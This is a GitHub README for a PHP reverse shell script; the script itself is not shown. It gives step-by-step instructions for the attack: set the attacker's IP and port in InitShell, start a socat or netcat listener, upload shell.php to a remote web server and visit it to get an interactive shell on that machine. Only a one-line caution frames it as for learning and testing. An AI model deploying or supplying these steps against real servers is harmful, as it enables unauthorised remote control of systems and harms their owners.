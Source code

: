 # PHP Reverse Shell

This is an easy-to-use PHP script that helps you get a command-line interface (a "shell") on a remote computer.


## What It Does

* **Full Control:** Gives you a real command-line on the remote computer, so you can type commands just like you normally would.
* **Smart Setup:** It handles all the complex parts of getting the shell to work correctly in your terminal.
* **Works Reliably:** It tries different ways to run commands, so it's more likely to work on various systems.
* **Quick to Use:** Designed for fast setup and deployment.

## What You Need

* **On the Remote Computer:**
    * PHP installed.
    * The `proc_open()` function **must be turned on** in PHP's settings (`php.ini`). This is essential for the script to work.
* **On Your Computer:**
    * A program like `netcat` (`nc`) or `socat` to "listen" for the connection.


## How to Use It

1.  **Change the Script:**
    Open the PHP script (you can name it `shell.php`) and find the line at the very bottom that looks like this:

    ```php
    InitShell('IP', PORT);
    ```
    Replace `'IP'` with your computer's IP address and `'PORT'` with a port number you choose (e.g., `4444`).

    *Example: `InitShell('10.10.14.5', 4444);`*

2.  **Start Listening:**
    On your computer, open a terminal (command prompt) and start your listener:

    ```bash
    # Best option
    socat file:`tty`,raw,echo=0 tcp-listen:PORT

    # A simpler option if socat isn't available
    nc -lvnp PORT
    ```

3.  **Run It on the Remote Computer:**
    Upload your modified `shell.php` script to the remote computer.
    **If it's on a website:** Just visit it's web address in a browser (e.g., `http://example-site.com/shell.php`).

4.  **You're Connected!**
    Your listener should show a new connection, and you'll have a working command-line from the remote computer.



## CAUTION!

* **Use Responsibly:** This tool is for learning and testing **only**. Never use it on computers you don't own or don't have permission to access. Doing so is illegal.
* **`proc_open()` is a Must:** If the shell doesn't connect, the most common reason is that the `proc_open()` function is turned off in the remote computer's PHP settings.


## Credits

* **Written by:** santeri@bittisilta.fi
* **Website:** [https://bittisilta.fi](https://bittisilta.fi)
* **GitHub:** [https://github.com/santeri1337](https://github.com/santeri1337)

[![TryHackMe Badge](https://tryhackme-badges.s3.amazonaws.com/santeri1337.png)](https://tryhackme.com/p/santeri1337)
